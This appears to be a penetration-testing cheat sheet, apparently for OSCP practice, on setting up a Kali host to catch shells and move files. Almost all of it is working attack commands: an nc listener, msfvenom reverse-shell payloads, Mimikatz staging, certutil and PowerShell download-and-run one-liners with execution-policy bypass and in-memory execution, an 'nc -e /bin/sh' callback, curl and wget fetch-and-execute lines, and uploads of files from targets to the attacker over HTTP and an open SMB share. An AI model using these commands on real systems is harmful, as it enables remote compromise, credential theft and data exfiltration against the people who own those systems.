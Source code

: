 # 1. Setup Kali for connections

## 1.1. Setup listener

```console
nc -nlvp 4444
```
|   |   |
|---|---|
|`-n`|numeric-only IP addresses, no DNS|
|`-l`|listen mode, for inbound connects|
|`-v`|verbose [use twice to be more verbose]|
|`-p`|local port number (port numbers can be individual or ranges: lo-hi [inclusive])|

## 1.2. Prepare payload transfer

Prepare files to web server root

☝️ Apache2 is already running with DocumentRoot at `/var/www/html`

If Kali isn't setup as web server, use `python3 -m http.server 80 &> /dev/null &` to run a web server endpoint, the web server root will be the `pwd` where the command was run

### Mimikatz:

```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /var/www/html
```

### MSFVenom reverse shell TCP:

☝️ omit the `x64` to generate a x86 payload

Linux:

|   |   |
|---|---|
|Python|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f py -o /var/www/html/reverse.py`|
|Executable and Linkable Format (elf)|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f elf -o /var/www/html/reverse.elf`|

Windows:

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
```

### PowerShell-based reverse shell script:

Download the reverse shell scription:

```console
curl -O https://raw.githubusercontent.com/joetanx/oscp/main/reverse.ps1
```

Edit the address and port:

```console
sed -i 's/<ADDRESS>/kali.vx/' reverse.ps1
sed -i 's/<PORT>/4444/' reverse.ps1
```

# 2. Execute payloads on Windows

## 2.1. Execute Windows reverse shell TCP payload

|   |   |
|---|---|
|certutil|`certutil.exe /urlcache /f /split http://kali.vx/reverse.exe %TEMP%\reverse.exe && %TEMP%\reverse.exe`|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','%TEMP%\reverse.exe'); Start-Process %TEMP%\reverse.exe`|

## 2.2. Execute PowerShell-based reverse shell script

☝️ `Invoke-Expression` is useful if you don't want the payload to touch the disk, but it works for Powershell Scripts only

(i.e. `DownloadFile` of the reverse shell executable and try to run it with `Invoke-Expression` will not work)

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://kali.vx/reverse.ps1')
```

# 3. Execute payloads on Linux

## 3.1. Simply nc back (if netcat is installed on target machine)

```console
nc -nv 192.168.17.10 4444 -e /bin/sh
```

## 3.2. Execute Linux reverse shell TCP payload

|   |   |
|---|---|
|cURL|`curl -O http://kali.vx/reverse.elf && chmod +x reverse.elf && ./reverse.elf`|
|Wget|`wget http://kali.vx/reverse.elf && chmod +x reverse.elf && ./reverse.elf`|

# 4. Uploading files from Windows to Kali

## 4.1. HTTP

### 4.1.1. Setup upload page on web server

#### Prepare uploads directory

```console
mkdir /var/www/html/uploads
chown www-data:www-data /var/www/html/uploads
```

☝️ apache2 runs as `www-data` user, it needs write permission on the uploads directory for uploads to succeed

#### Prepare upload page

```console
curl -o /var/www/html/upload.php https://raw.githubusercontent.com/joetanx/oscp/main/upload.php
```

☝️ The name for the upload parameter is named as default of `file` to accommodate the PowerShell `UploadFile` method of `System.Net.WebClient` which will `POST` the file to this name

### 4.1.2. Uploading

|   |   |
|---|---|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).UploadFile('http://kali.vx/upload.php','The Little Prince.jpg')`|
|cURL|`curl -H 'Content-Type:multipart/form-data' -X POST -F file=@"The Little Prince.jpg" -v http://kali.vx/upload.php`|

## 4.2. SMB

### 4.2.1. [Create a passwordless guest share in Samba](https://www.techrepublic.com/article/how-to-create-a-passwordless-guest-share-in-samba/)

```console
sed -i '/;   interfaces/a interfaces = eth0' /etc/samba/smb.conf
sed -i '/;   bind interfaces only = yes/a bind interfaces only = yes' /etc/samba/smb.conf
mkdir /home/share
chmod -R ugo+w /home/share
cat << EOF >> /etc/samba/smb.conf
[public]
path = /home/share
public = yes
guest ok = yes
writable = yes
force create mode = 0666
force directory mode = 0777
browseable = yes
EOF
systemctl enable --now smbd
```

### 4.2.2. Copy

```cmd
copy "The Little Prince.jpg" \\kali.vx\public\
```
